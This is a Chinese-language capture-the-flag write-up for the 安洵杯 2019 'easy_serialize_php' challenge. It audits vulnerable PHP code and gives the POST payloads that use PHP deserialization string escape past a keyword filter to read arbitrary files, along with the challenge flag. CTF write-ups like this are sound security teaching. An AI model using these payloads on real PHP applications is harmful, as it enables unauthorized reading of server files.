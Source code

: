 #安洵杯 2019]easy_serialize_php

代码审计
```
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
} #对$img里面的php,flag,php5,php4,fl1g进行过滤


if($_SESSION){
    unset($_SESSION);
} #将已有的session删除掉

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function; #给名为user和function的session赋值

extract($_POST); #用POST提交的方式叫html表单

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
} #如果没有img_path这个变量，则给guset_img.png加密，有，则给img_path加密

$serialize_info = filter(serialize($_SESSION)); #将$_SESSION序列化的值给filter过滤

if($function == 'highlight_file'){
    highlight_file('index.php');
} #如果变量是highlight_file，则显示index.php
else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
} #如果变量是phpinfo，则显示php信息
else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img'])); #如果变量是show_image，则显示$img变量里的文件里的内容

```

通过观察php的信息，可以看到一个文件信息d0g3_flag.php

但是我们无法读取这个文件的内容，然后通过代码审计，我们可以使用反序列化逃逸，通过改变img的值来读取

可以通过exp来知道原来_SESSION序列化的值
```
<?php

$function=@$_GET['f'];

$_SESSION["user"]='guest';
$_SESSION['function']=$function;
$_SESSION['img']=base64_encode('guest_img.png');

extract($_POST);

$serialize_info=serialize($_SESSION);

echo $serialize_info;
?>
```

此时输出的是：
a:3:{s:4:"user";s:5:"guest";s:8:"function";N;s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}

我们可以通过减少关键词的数来逃逸
_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}

我们可以得到
$flag = 'flag in /d0g3_fllllllag';

然后我们再改变一下img的数值
_SESSION[flagflag]=";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}

从而得到flag
flag{7b704900-c0d7-4302-90a6-fc459a2c405c} 

